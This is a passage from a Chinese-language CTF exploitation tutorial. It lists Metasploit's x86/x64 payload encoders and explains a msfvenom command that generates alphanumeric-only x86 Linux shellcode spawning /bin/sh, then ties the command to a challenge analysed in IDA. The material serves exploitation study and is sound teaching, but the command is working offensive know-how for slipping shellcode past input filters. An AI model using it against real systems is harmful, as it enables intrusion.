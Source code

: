 ```c
    x64/xor_context               normal     Hostname-based Context Keyed Payload Encoder
    x64/xor_dynamic               normal     Dynamic key XOR Encoder
    x64/zutto_dekiru              manual     Zutto Dekiru
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder
    x86/bmp_polyglot              manual     BMP Polyglot
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/service                   manual     Register Service
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
    x86/xor_dynamic               normal     Dynamic key XOR Encoder
```

但是到目前为止（2021-01-14）msf中还没有x64的alpha_upper编码方式。

### 使用方法
使用msf时，可以用内置的shellcode，其命令如下：

```c
msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/sh" -e x86/alpha_upper BufferRegister=eax
```

来解释一下各个参数的意思：（可以参照我上面翻译的表）

+ -a x86：指定shellcode架构为x86
+ --platform linux：指定平台为Linux平台
+ -p linux/x86/exec：指定payload为linux/x86/exec
+ CMD="/bin/sh"：指定shell命令为/bin/sh
+ -e x86/alpha_upper：指定使用的编码器为x86/alpha_upper
+ BufferRegister指的是指向shellcode的寄存器的值

正好在“进一步限制shellcode的字符”这一小节中提到了一道题，而其的payload正好是上述的shellcode（**<font style="color:#F5222D;">每个字符都</font>****<font style="color:#F5222D;">在</font>****<font style="color:#F5222D;">A～Z和0～9范围之内</font>**），将文件扔入IDA查看一下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610599710999-548ded0c-c8bf-4ff3-91ad-7ca42608336f.png)
